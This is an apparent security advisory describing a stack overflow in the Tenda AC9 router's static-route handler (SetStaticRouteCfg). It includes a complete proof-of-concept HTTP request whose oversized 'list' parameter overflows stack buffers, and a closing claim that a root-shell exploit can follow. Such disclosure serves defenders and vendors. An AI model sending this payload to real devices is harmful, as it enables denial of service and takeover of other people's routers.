

# Tenda AC9 V15.03.2.21_cn stack overflow

## Overview

- Manufacturer's website information：https://www.tenda.com.cn/profile/contact.html
- Firmware download address ： https://www.tenda.com.cn/download/default.html

## 1. Affected version


Figure 1 shows the latest firmware Ba of the router

## Vulnerability details



First, get the content after a list parameter through V5, and then bring V5 into sub_ 6ffe8 function
Follow up view


At this time, the corresponding value is A2


Then, judge whether the value of A2 is greater than 4, and then transfer the value of A2 to V15
After that, put the matched content into the stack through the format string of sscanf
The controllable parameters V10, V9 and V8 respectively correspond to the IP, MAC address and IP of the packet, which all have stack overflow vulnerabilities

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware V15.03.2.21_cn
2. Attack with the following POC attacks

```
POST /goform/SetStaticRouteCfg HTTP/1.1
Host: 192.168.11.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 1042
Origin: http://192.168.11.1
Connection: close
Referer: http://192.168.11.1/static_route.html?random=0.9676560019574542&
Cookie: password=7c90ed4e4d4bf1e300aa08103057ccbckfs1qw

list=192.168.3.0aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaeaaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaae,255.255.255.0,192.168.3.1
```

The reproduction results are as follows:


Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shel

